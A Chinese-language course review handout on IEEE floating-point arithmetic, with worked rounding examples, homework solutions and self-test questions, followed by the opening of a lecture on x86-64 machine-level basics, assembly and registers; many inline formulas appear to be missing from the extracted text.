注意第 4、5 行： 和 都恰好在两个可表示值的中间，却分别向上、向下舍入到同一个 ，这正是“取偶数”的效果。第 6 行说明舍入可能让尾数进位到 10.000，此时要右移一位、指数加 1（课件 p.47 的再规格化）。
2（3）根据课件第 35 页，重新设计一个运算场景，边运算边讲解浮点数乘法的流程。
采用与课件相同的 4 位尾数（1 位整数 + 3 位小数）格式，计算 ，其中 ，。精确乘积为 −1.1171875。
符号：，结果为负。
接着把指数相加：。（若用 exp 字段计算，要注意 ，否则 Bias 被加了两次。）
尾数相乘：。
然后规格化：，右移一位、指数加 1：。
下一步做舍入，保留 3 位小数：1.000|1111，G = 0，R = 1，S = 1，大于一半，进位得 。
最后检查溢出：E = 0 在范围内。结果为 ，与精确值 −1.1171875 相差 0.0078125，小于 的舍入误差上界。
2（4）根据课件第 36 页，重新设计一个运算场景，边运算边讲解浮点数加法的流程。
仍用 4 位尾数格式，设计三个加法，分别展示“需要右移规格化并舍入”“大数相消需要左移规格化”“大数吃掉小数”三种情况。
场景一：（13 + 1.75）
先对阶：，把小数的尾数右移 3 位：。（右移时多出的位不能丢，要保留用于舍入。）
尾数相加：，结果为 。
接着规格化：M 已在 [1, 2) 中，无需调整。
最后舍入：1.110|110，G = 0，R = 1，S = 1，进位得 。精确和为 14.75，舍入为 15。
场景二：（2 − 1.875，大数相消）
对阶：。
尾数相减：，结果 。
规格化时，，左移 4 位、指数减 4：，结果精确。
两个相近的数相减时，高位全部抵消，有效位大量损失，称为灾难性相消（catastrophic cancellation）；如果两个操作数本身带有舍入误差，结果的相对误差会被急剧放大。
场景三：（32 + 1，大数吃小数）
先对阶：；相加得 ；舍入 1.000|01，R = 0，舍去，结果仍为 32。1 被完全“吞掉”，这就是 (3.14+1e10)-1e10 = 0 的原理（3.11 节）。
2（5）根据课件第 37 页，讲解浮点加法的特性。详细举例讲解哪些情况下，单调性不成立。
浮点加法与阿贝尔群（见 2（7））对比：封闭（但可能得到 ∞ 或 NaN）、交换律成立、结合律不成立（上溢与舍入）、0 是单位元、几乎每个元素都有逆元（除了 ∞ 和 NaN： 是 NaN 而不是 0）。单调性“几乎”成立：对有限数， 一定成立，因为精确和保持了大小关系，而舍入是单调函数（不会让大的数变得比小的数还小）。
| 反例 | a | b | c | a + c | b + c | ？ |
|---|---|---|---|---|---|---|
| c 为 −∞，a 为 +∞ | +∞ | 1 | −∞ | NaN | −∞ | 假（NaN 与任何数比较为假） |
| c 为 +∞，b 为 −∞ | 1 | −∞ | +∞ | +∞ | NaN | 假 |
| a 或 b 为 NaN | NaN | … | 1 | NaN | … | 前提 本身就为假，命题空真；但 NaN 使比较失去意义 |
课件（2025 版）p.37 的备注指出：“NaN 是无序的，所以 c 不能是 NaN；如果 a 是无穷，c 是负无穷，也会产生 NaN。”可见单调性的例外全部来自无穷与 NaN。与之对比，整数加法满足结合律却不满足单调性（会溢出回绕），浮点加法正好相反。
2（6）根据课件第 38 页，讲解浮点乘法的特性。详细举例讲解哪些情况下，单调性不成立。
把浮点乘法与交换环对比，可以看出：封闭（可能得到 ∞ 或 NaN）、交换律成立、结合律不成立（，而 ，float 下）、1 是单位元、乘法对加法的分配律不成立（，而 ，float 下）。单调性 对有限数成立，例外来自无穷与 NaN：
| 反例 | a | b | c | a × c | b × c | 结论 |
|---|---|---|---|---|---|---|
| +∞ | 1 | 0 | NaN | 0 | 为假 | |
| 0 | −1 | +∞ | NaN | −∞ | 为假 | |
| 的情况 | 1 | 0 | −0 | −0 | −0 | 数值相等，成立；但符号位可能不同 |
另外，即使不涉及特殊值，舍入也使得乘法不满足“消去律”之类的性质，例如 不一定等于 x。编译器不能随意改变浮点乘法的计算顺序，也不能把 x*2.0*0.5 化简为 x（x*2.0 可能上溢）。
2（7）拓展研讨：什么是阿贝尔群，主要有哪些属性，具备这些属性有什么意义？
阿贝尔群（Abelian group，交换群）是一个集合 G 配上一个二元运算 ∘，满足以下五条公理：
| 公理 | 内容 | 整数加法 (ℤ, +) | 浮点加法 |
|---|---|---|---|
| 封闭性 | ✓ | ✓（结果可能是 ∞ 或 NaN，仍在浮点集合内） | |
| 结合律 | ✓ | ✗ | |
| 单位元 | 存在 e 使 | ✓（0） | ✓（0） |
| 逆元 | 每个 a 有 使 | ✓（−a） | 几乎（∞、NaN 没有） |
| 交换律 | ✓ | ✓ |
满足前四条的叫“群”，再满足交换律的叫阿贝尔群。整数加法、模 的整数加法（即计算机中的补码加法，第 2 讲）、非零有理数乘法都是阿贝尔群。若一个集合上有两种运算，加法构成阿贝尔群，乘法满足结合律并对加法满足分配律，就构成“环”；乘法还满足交换律时称为“交换环”（课件 p.38 拿浮点乘法与之对比）。
这些公理保证了我们在代数中习以为常的变形是合法的。有结合律，求和时可以随意加括号、改变计算顺序，从而可以并行求和（如把数组分成几段分别求和再合并）、可以让编译器重排与复用公共子表达式；有逆元，可以“移项”与“消去”：由 推出 ；有交换律，可以任意调整操作数顺序。浮点加法缺少结合律，意味着改变求和顺序会改变结果——并行归约在不同线程数下可能得到略有不同的结果，编译器默认不能做这类优化，数值算法需要专门设计（例如 Kahan 求和）。补码加法构成阿贝尔群，这也解释了为什么即使中间结果溢出，只要最终结果在范围内，整数求和的结果仍然正确。
2（8）根据课件第 41 页，逐个说明这些等式成立或者不成立的原因，以及不成立时，是什么运算结果。
答案见 3.13 节的表格，这里补充不成立时的具体运算结果（x86-64 实测）：
| 表达式 | 不成立时的具体结果 |
|---|---|
x == (int)(float) x | x = 16777217：(float)x = 16777216.0，转回 int 为 16777216，与 x 不等。又如 x = 16777219 会舍入为 16777220（恰好一半，向偶数舍入） |
d == (double)(float) d | d = 0.1：(float)d = 0.100000001490116…，转回 double 后不等于 0.1；d = 1e40：(float)d = inf |
2/3 == 2/3.0 | 左边整数除法得 0，提升为 double 0.0；右边为 0.6666666666666666，不等 |
(d+f)-d == f | d = 1e20，f = 1.0f：d + f 舍入为 1e20，再减 d 得 0.0 ≠ 1.0 |
总成立的六个，原因可归结为三条：int → double、float → double 是精确转换；取负只翻转符号位，是精确运算；舍入是单调的，不会改变符号，且上溢只会得到同号的无穷。
2（9）用十进制近似形式说明，单精度浮点数（32 位）和双精度浮点数（64 位）各自能表示的数值范围和大约的十进制有效数字位数是多少？
表 20 单精度与双精度的范围与精度（数值已用 <float.h> 核对）
| 单精度 float | 双精度 double | |
|---|---|---|
| 最大值 | ||
| 最小正规格化数 | ||
| 最小正非规格化数 | ||
| 有效位数（含隐含位） | 24 位二进制 | 53 位二进制 |
| 十进制有效数字 | 位 | 位 |
保证能精确保留的十进制位数（FLT_DIG / DBL_DIG） | 6 | 15 |
| 机器精度 ε（1 与下一个数的间距） |
所以课件 p.12 概括为：单精度约 7 位十进制有效数字、范围 ；双精度约 16 位、范围 。“约 7 位”的意思是：任意 6 位十进制数存入 float 再取出都不会变（FLT_DIG = 6），而要把一个 float 无损地写成十进制再读回，需要打印 9 位有效数字（double 需要 17 位）。课件 2025 版备注也提到：IEEE 754 的 23 位指二进制有效位，换算成十进制约为 7 位有效数字。
第三部分 作业题解答：2.86、2.87、2.89#
作业题来自教材第 2 章家庭作业（中文版 P93–P95；英文 Global Edition 中题号相同）。下面给出完整解答。
2.86 x87 扩展精度格式#
题目与 Intel 兼容的处理器支持“扩展精度”浮点格式：80 位字，1 个符号位，k = 15 个阶码位，1 个单独的整数位，n = 63 个小数位。整数位是 IEEE 浮点表示中隐含位的显式副本：规格化值为 1，非规格化值为 0。填写下表中这种格式的“有趣”数值的近似值。
k = 15，Bias = 。规格化数 ，Exp 取 1～32766；非规格化数 。与 IEEE 格式唯一的区别是整数位被显式存储，因此小数位 n = 63 决定精度。
| 描述 | 位模式（s | exp | 整数位 | frac） | 值 | 十进制 |
|---|---|---|---|
| 最小的正非规格化数 | 0 | 000…000 | 0 | 000…001 | ||
| 最小的正规格化数 | 0 | 000…001 | 1 | 000…000 | ||
| 最大的规格化数 | 0 | 111…110 | 1 | 111…111 |
十进制值由高精度计算得到：，，。
2.87 IEEE 半精度格式#
题目2008 版 IEEE 浮点标准包含 16 位“半精度”格式：1 个符号位，5 个阶码位（k = 5），10 个小数位（n = 10），阶码偏置为 15。对每个给定的数填写：Hex（编码的 4 位十六进制）、M（尾数的值，形如 x 或 x/y）、E（阶码的整数值）、V（表示的数值，形如 x 或 x × 2^z）、D（printf 用 %f 打印的近似值）。例：7/8 的 s = 0，M = 7/4，E = −1，编码为 3B00，值为 0.875。
先回顾格式。Bias = 15；规格化数 E = Exp − 15，M = 1 + frac/1024；非规格化数 E = 1 − 15 = −14，M = frac/1024。题目中的 M 是尾数的完整值，规格化数要包含隐含的 1。
表 21 2.87 答案
| 描述 | Hex | M | E | V | D |
|---|---|---|---|---|---|
| −0 | 8000 | 0 | −14 | −0 | −0.0 |
| 最小的 > 2 的值 | 4001 | 1025/1024 | 1 | 2.001953 | |
| 512 | 6000 | 1 | 9 | 512 | 512.0 |
| 最大的非规格化数 | 03FF | 1023/1024 | −14 | 0.000061 | |
| −∞ | FC00 | — | — | −∞ | −∞ |
| 十六进制表示为 3BB0 的数 | 3BB0 | 123/64 | −1 | 0.960938 |
−0 的编码是：s = 1，其余全 0：1 00000 0000000000 = 0x8000。属于非规格化数，所以 E = 1 − 15 = −14（不是 0），M = 0。
比 2 大的最小值的编码是：2 = ，编码 0 10000 0000000000 = 0x4000；比它大的下一个数把 frac 加 1，得 0x4001，，，。
512 的编码是：，Exp = 9 + 15 = 24 = 11000，编码 0 11000 0000000000 = 0x6000，M = 1，E = 9。
最大非规格化数的编码是：0 00000 1111111111 = 0x03FF，M = 1023/1024，E = −14，。
−∞ 的编码是：1 11111 0000000000 = 0xFC00。
最后把 3BB0 解码：0011 1011 1011 0000 → s = 0，exp = 01110 = 14，frac = 1110110000 = 944。规格化数：E = 14 − 15 = −1，，，%f 打印为 0.960938。
| 0x3BB0 | 0 | 0 | 1 | 1 | 1 | 0 | 1 | 1 | 1 | 0 | 1 | 1 | 0 | 0 | 0 | 0 | E = −1，M = 1 + 944/1024 |
2.89 int、float、double 混合运算#
题目int 为 32 位补码，float、double 为 IEEE 单、双精度。int x = random(); int y = random(); int z = random(); double dx = (double) x; double dy = (double) y; double dz = (double) z; 对下列每个 C 表达式，判断是否总是得到 1；若是，说明数学原理，否则举出使它得到 0 的参数。
| 表达式 | 答案 | 原理 / 反例（已实测） | |
|---|---|---|---|
| A | (float) x == (float) dx | 总为 1 | int → double 是精确的，所以 dx 的数值与 x 完全相同。左边把 x 舍入到 float，右边把同一个数值从 double 舍入到 float，两者都是“把同一个实数按同一规则舍入到 24 位有效位”，结果必然相同 |
| B | dx - dy == (double)(x-y) | 不总为 1 | 右边先做 int 减法可能溢出：x = 0，y = TMin 时 x − y 溢出为 TMin（−2147483648），而 dx − dy = 2147483648。另一个反例 x = TMin、y = 1：x − y 回绕为 TMax |
| C | (dx + dy) + dz == dx + (dy + dz) | 总为 1 | 三个 int 之和的绝对值小于 ，所有中间结果都能被 double 精确表示，没有舍入，因此结合律成立 |
| D | (dx * dy) * dz == dx * (dy * dz) | 不总为 1 | 乘积可达约 ，超过 53 位有效位，会发生舍入，不同的结合顺序舍入不同。例如 x = 3，y = ，z = 经实测表达式结果为 0 |
| E | dx / dx == dz / dz | 不总为 1 | x = 0，z = 1：左边 0.0/0.0 = NaN，NaN 与任何数比较都为假 |
⚠ 一个常见的错误反例
网上流传的 2.89 D 的反例“x = TMax，y = TMax − 1，z = TMax − 2”经 x86-64 实测两边相等（结果为 1），并不能作为反例。构造反例时最好用程序验证。
第四部分 复习速查#
4.1 公式与规则一页纸#
表 22 第 3 讲核心公式
| 概念 | 公式 / 规则 |
|---|---|
| 二进制小数 | ；只有 形式的数能精确表示 |
| 浮点数值 | |
| 偏置 | ：float 127，double 1023，half 15 |
| 规格化数 | exp ≠ 0 且 ≠ 全 1；， |
| 非规格化数 | exp = 0；，；等间距 |
| 特殊值 | exp 全 1：frac = 0 为 ±∞，frac ≠ 0 为 NaN |
| 运算 | ， |
| 向偶数舍入 | 进位 ⇔ |
| 乘法 | ，，； 则右移、E 加 1；舍入 |
| 加法 | 对阶（小指数的尾数右移 位）→ 相加 → 规格化（右移或左移）→ 舍入 |
| C 转换 | int→double 精确；int→float 可能舍入；浮点→int 向零截断，越界未定义（x86 得 TMin） |
4.2 必须记住的数#
| 数 | float | double |
|---|---|---|
| 1.0 的编码 | 0x3F800000 | 0x3FF0000000000000 |
| −0.0 的编码 | 0x80000000 | 0x8000000000000000 |
| +∞ 的编码 | 0x7F800000 | 0x7FF0000000000000 |
| 最大值 | ||
| 最小正规格化数 | ||
| 最小正非规格化数 | ||
| 不能精确表示的最小正整数 | ||
| 十进制有效数字 | 约 7 | 约 16 |
4.3 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | exp 就是 E，frac 就是 M | E = Exp − Bias（非规格化为 1 − Bias）；M = 1.frac 或 0.frac |
| 2 | 非规格化数的 E = −Bias | E = 1 − Bias，例如 float 为 −126 而不是 −127 |
| 3 | 0.1 + 0.2 == 0.3 | 为假：0.1、0.2、0.3 都不能被精确表示 |
| 4 | 浮点数比较可以直接用 == | 计算结果应使用相对误差判断；NaN 不等于自身 |
| 5 | float 能精确表示所有 int | 超过 的整数可能被舍入 |
| 6 | (int)3.7 = 4 | 向零截断：3；(int)−3.7 = −3 |
| 7 | 浮点加法满足结合律 | 不满足：大数吃小数、上溢 |
| 8 | 四舍五入是浮点默认舍入方式 | 默认是向偶数舍入：2.5 → 2，3.5 → 4 |
| 9 | 判断“恰好一半”只看下一位 | 要看 R 及其后所有位（S 位） |
| 10 | −0 和 +0 完全一样 | 数值相等，但位模式不同，1/−0 = −∞ |
| 11 | NaN 比较会报错 | 不报错，除 != 外都为假 |
| 12 | 课件中 (1e20*1e20)*1e−20 = inf 对 double 也成立 | 该例针对 float；double 中 1e40 不会上溢 |
| 13 | 浮点转换与 int↔unsigned 一样保持位模式 | 浮点与整数之间的转换会改变位模式，保持（或近似保持）数值 |
4.4 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| fractional binary number | 二进制小数 | floating point | 浮点 |
| fixed point | 定点 | significand / mantissa | 尾数 |
| exponent | 阶码 / 指数 | bias | 偏置 |
| normalized | 规格化 | denormalized (subnormal) | 非规格化 |
| special value | 特殊值 | infinity | 无穷 |
| NaN (Not a Number) | 非数 | gradual underflow | 逐渐下溢 |
| overflow / underflow | 上溢 / 下溢 | round-to-even | 向偶数舍入 |
| round toward zero | 向零舍入 | round up / down | 向上 / 向下舍入 |
| guard / round / sticky bit | 保护位 / 舍入位 / 粘滞位 | single / double precision | 单 / 双精度 |
| half precision | 半精度 | Abelian group | 阿贝尔群 |
| commutative ring | 交换环 | monotonicity | 单调性 |
| catastrophic cancellation | 灾难性相消 | machine epsilon | 机器精度 |
第五部分 自测题#
以下题目为新编。假设 float 为 IEEE 单精度，默认向偶数舍入。
把 6.5 编码为 float，写出十六进制。
float 位模式 0x3F400000 表示的值是多少？
在课件的 8 位格式（4 位 exp，Bias = 7，3 位 frac）中，0 1010 101 和 0 0000 101 各表示多少？
把 和 分别舍入到小数点后 3 位（向偶数舍入）。
(float)16777217 == 16777216.0f 是否为真？(float)16777219 等于多少？
单精度浮点数中 NaN 的位模式一共有多少个？
在 x86-64 上，(int)3.99、(int)-3.99、运行时的 (int)1e10 分别是多少？
把 −1.0f 和 2.0f 的位模式当作无符号整数比较，哪个更大？这说明了什么？
为什么非规格化数的指数取 而不是 ？
用 4 位尾数格式计算 ，写出对阶、相加、规格化、舍入的过程。
自测题答案#
，s = 0，Exp = 129 = 10000001，frac = 101000…，编码 0 10000001 10100000000000000000000 = 0x40D00000。
0 01111110 1000…：Exp = 126，E = −1，M = 1.1₂ = 1.5，值为 0.75。
0 1010 101：E = 10 − 7 = 3，M = 1 + 5/8 = 13/8，值为 13；0 0000 101：非规格化，E = −6，M = 5/8，值为 5/512。
1.101|101：R = 1，S = 1，进位得 1.110；1.100|100：恰好一半，G = 0 为偶，舍去得 1.100。
这个判断为真：16777217 = 位于 与 正中间，向偶数舍入为 。16777219 位于 16777218 与 16777220 正中间，向偶数（尾数末位为 0）舍入为 16777220。
16777214 个。
3、−3（向零截断）、−2147483648（越界，x86 的 cvttsd2si 返回整数不定值 TMin）。
−1.0f = 0xBF800000，2.0f = 0x40000000，按无符号比较 −1.0f 更大，与数值顺序相反。说明用整数比较浮点数时必须先比较符号位，负数部分顺序要反过来。
为了让最大非规格化数 与最小规格化数 平滑衔接，二者间距与非规格化数之间的间距相同；若取 ，两类数之间会出现空隙。
先对阶：；再相加，即 ；无需规格化；舍入 1.101|01，R = 0，舍去，结果 （精确和为 5.5 + 1.125 = 6.625）。
—— 第 3 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 4 讲
程序的机器级表示 I：基础（Machine-Level Programming I: Basics）
如何使用本讲义#
从这一讲开始，我们要同时看三种“语言”：C 代码、汇编代码、机器码。讲义中所有汇编都用等宽字体，并尽量与对应的 C 代码并排或逐行注释。寄存器的各个“别名”统一用下面的颜色表示，与第 2 讲中符号位用橙色的习惯相呼应：
| %rax | 63 … 32 | 31 … 16 | 15 … 8 | 7 … 0 | 蓝：%rax ｜ 深蓝：%eax ｜ 黄：%ax ｜ 紫：%ah ｜ 橙：%al |
表 1 第 4 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| History of Intel processors and architectures（p.3–10） | x86 为什么这么“怪”？CISC、x86-64 的由来 | 4.1 |
| C, assembly, machine code（p.12–24） | ISA 与微体系结构；程序员可见状态；编译、汇编、反汇编 | 4.2 |
| Assembly Basics: Registers, operands, move（p.26–40） | 16 个整数寄存器与别名；操作数；mov；寻址模式；swap | 4.3–4.7 |
| Arithmetic & logical operations（p.42–46） | leaq；一元、二元、移位指令；arith 例子 | 4.8 |
第一部分 第 4 讲知识点：机器级编程基础#
前三讲研究“数据如何表示”，从这一讲开始研究“程序如何表示”：C 程序被编译成什么样的机器指令，这些指令如何操作寄存器和内存。理解机器级代码有三大用处：读懂编译器的优化（第 1 讲问题 2）、理解程序的运行时行为与安全漏洞（Bomb Lab、Attack Lab）、调试那些“在 C 层面解释不通”的 bug。
4.1 Intel x86 处理器的历史（课件 p.3–10）#
x86 是笔记本、台式机和服务器市场的主导架构。它是演进式设计的产物：一直向后兼容到 1978 年的 8086，不断添加新特性，如今 Intel 的手册有 3 卷、约 5000 页。它属于复杂指令集计算机（CISC）：指令种类多、格式多样，但 Linux 程序实际用到的只是其中一小部分。与之相对的是精简指令集计算机（RISC），如 ARM、RISC-V，指令少而规整。一般认为 CISC 难以达到 RISC 的性能，但 Intel 通过在内部把复杂指令翻译成简单的微操作做到了（在速度上；在低功耗上则不太成功）。
表 2 x86 演进的里程碑（课件 p.4）
| 处理器 | 年份 | 晶体管数 | 主频 (MHz) | 意义 |
|---|---|---|---|---|
| 8086 | 1978 | 29K | 5–10 | 第一款 16 位 Intel 处理器，IBM PC 与 DOS 的基础；1 MB 地址空间 |
| 386 | 1985 | 275K | 16–33 | 第一款 32 位 Intel 处理器，称为 IA32；“平坦寻址”，能运行 Unix |
| Pentium 4E | 2004 | 125M | 2800–3800 | 第一款 64 位 Intel x86 处理器，称为 x86-64 |
| Core 2 | 2006 | 291M | 1060–3333 | 第一款多核 Intel 处理器 |
| Core i7 | 2008 | 731M | 1600–4400 | 四核 |
课件 p.5–7 继续列出晶体管数（从 386 的 0.3M 到 2017 年 Xeon Skylake-SP 的 8B）和制造工艺（从 1995 年 Pentium Pro 的 600 nm 到 2020 年 Tiger Lake 的 10 nm）。“工艺尺寸”原指最细导线的宽度，10 nm 大约是 100 个原子宽；近年来这些数字已经演变为工艺代际的命名，不再严格对应某个物理尺寸。新增的特性包括多媒体指令、更高效的条件操作指令（第 5 讲的条件传送）、从 32 位到 64 位的过渡以及更多核。
教材 x86-64 的由来：AMD 的“逆袭”（课件 p.8–9）
2001 年 Intel 试图从 IA32 彻底转向全新的 64 位架构 IA64（安腾 Itanium），只能以兼容方式执行 IA32 代码，性能令人失望。2003 年 AMD 推出演进式的方案 x86-64（现称 AMD64），在 IA32 的基础上扩展到 64 位。2004 年 Intel 宣布 EM64T，几乎与 x86-64 相同。所以今天我们用的“x86-64”其实是 AMD 设计的。本课程只讲 x86-64（IA32 在教材网络旁注中介绍）。
4.2 C、汇编与机器码（课件 p.12–24）#
几个基本定义#
表 3 定义（课件 p.12）
| 术语 | 含义 | 例子 |
|---|---|---|
| 体系结构（architecture，也称 ISA，指令集体系结构） | 处理器设计中，编写正确的机器/汇编代码所需要了解的部分 | 指令集规范、寄存器 |
| 微体系结构（microarchitecture） | 体系结构的具体实现，程序员一般看不到 | 高速缓存大小、核心频率 |
| 机器码（machine code） | 处理器执行的字节级程序 | 48 89 03 |
| 汇编代码（assembly code） | 机器码的文本表示 | movq %rax, (%rbx) |
常见的 ISA 有 Intel 的 x86、IA32、Itanium、x86-64，ARM（几乎所有手机都使用），以及新兴的开源 ISA RISC-V。同一个 ISA 可以有许多不同的微体系结构实现，例如 Intel 和 AMD 的处理器都实现 x86-64，但内部设计完全不同；只要遵守同一个 ISA，同一份机器码就能在两者上运行。
程序员可见的状态#

图 1 汇编/机器码视角下的计算机（课件 p.13），以 addq %rdx,(%rcx) 为例标注了执行步骤
表 4 程序员可见状态（课件 p.13）
| 状态 | 说明 |
|---|---|
| PC（程序计数器） | 下一条要执行的指令的地址，x86-64 中称为 %rip |
| 寄存器文件 | 16 个 64 位整数寄存器，存放频繁使用的程序数据 |
| 条件码 | 保存最近一次算术或逻辑运算的状态信息（如结果是否为 0、是否进位），用于条件分支（第 5 讲） |
| 内存 | 按字节寻址的大数组；存放代码和用户数据，以及支持过程调用的栈 |
在 C 语言中，这些状态大多是“看不见”的：C 程序员看到的是变量、数组、结构体，而汇编程序员看到的只有寄存器和一个巨大的字节数组。研讨题 1（2）以图中的 addq %rdx,(%rcx) 为例，详细讲解了每个方框和每条连线的作用。
从 C 到目标代码#

图 2 把 C 程序变成可执行程序（课件 p.14）
命令 gcc -Og p1.c p2.c -o p 一步完成全部工作，其中 -Og 表示进行“适合调试”的基本优化（新版 gcc 才有），使生成的汇编代码与 C 源码结构对应、便于阅读。若加上 -S 则只编译到汇编代码为止（得到 .s 文件），加上 -c 则到目标文件为止（得到 .o 文件）。
/* sum.c */ sumstore:
long plus(long x, long y); pushq %rbx
movq %rdx, %rbx
void sumstore(long x, long y, call plus
long *dest) movq %rax, (%rbx)
{ popq %rbx
long t = plus(x, y); ret
*dest = t;
}真实的 .s 文件中还有许多以“.”开头的行（课件 p.16–17），如 .globl、.type、.cfi_startproc，它们是给汇编器和链接器的伪指令（directive），不是机器指令；阅读时一般可以忽略。不同机器、不同 gcc 版本、不同编译选项得到的结果会有差异（研讨题 1（4）给出了实测结果）。
| 汇编层面的数据类型（p.18） | 汇编层面的操作（p.19） |
|---|---|
| 1、2、4、8 字节的“整数”数据：数值，或地址（无类型的指针） | 在内存与寄存器之间传送数据：从内存加载（load）到寄存器；把寄存器存储（store）到内存 |
| 4、8、10 字节的浮点数据 | 对寄存器或内存中的数据执行算术运算 |
| （8、16、32、64 字节的 SIMD 向量数据） | 转移控制：过程调用与返回的无条件跳转；条件分支；间接分支 |
| 代码：编码指令序列的字节 | |
| 没有数组、结构体等聚合类型，只有内存中连续分配的字节 |
目标代码与反汇编#
汇编器把 .s 翻译成 .o，即每条指令的二进制编码，这几乎是可执行代码的完整映像，但缺少不同文件之间的链接信息。链接器解析文件之间的引用，并与静态运行时库（如 malloc、printf 的代码）合并；有些库是动态链接的，在程序开始执行时才链接（第 16 讲）。课件 p.20 中 sumstore 的目标代码共 14 字节，每条指令 1、3 或 5 字节，起始地址 0x400595。
一条机器指令（课件 p.21）
C 代码 *dest = t; 把 t 存到 dest 指向的位置。对应汇编 movq %rax, (%rbx)：把 8 字节的值（x86-64 中称为“四字”，quad word）送到内存。操作数：t 在寄存器 %rax，dest 在寄存器 %rbx，*dest 是内存 M[%rbx]。目标代码 0x40059e: 48 89 03，是一条存放在地址 0x40059e 的 3 字节指令。
0000000000400595 <sumstore>:
400595: 53 push %rbx
400596: 48 89 d3 mov %rdx,%rbx
400599: e8 f2 ff ff ff callq 400590 <plus>
40059e: 48 89 03 mov %rax,(%rbx)
4005a1: 5b pop %rbx
4005a2: c3 retq反汇编器（如 objdump -d）分析指令的位模式，重新生成近似的汇编代码，可以作用于完整的可执行文件或 .o 文件。也可以在 gdb 中用 disassemble sumstore 反汇编一个过程，或用 x/14xb sumstore 查看从 sumstore 开始的 14 个字节（课件 p.23）。任何可以被解释为可执行代码的字节都能被反汇编（课件 p.24 以 WINWORD.EXE 为例，但微软的最终用户许可协议禁止逆向工程）。研讨题 1（6）逐行解释了这段输出。
4.3 x86-64 整数寄存器（课件 p.26–27）#
x86-64 有 16 个 64 位通用整数寄存器。前 8 个沿用了 IA32 的名字（把 e 换成 r），后 8 个是新增的 %r8～%r15。每个寄存器的低 4 字节、低 2 字节、低 1 字节都可以单独作为操作数访问，因而一个寄存器有多个“别名”：
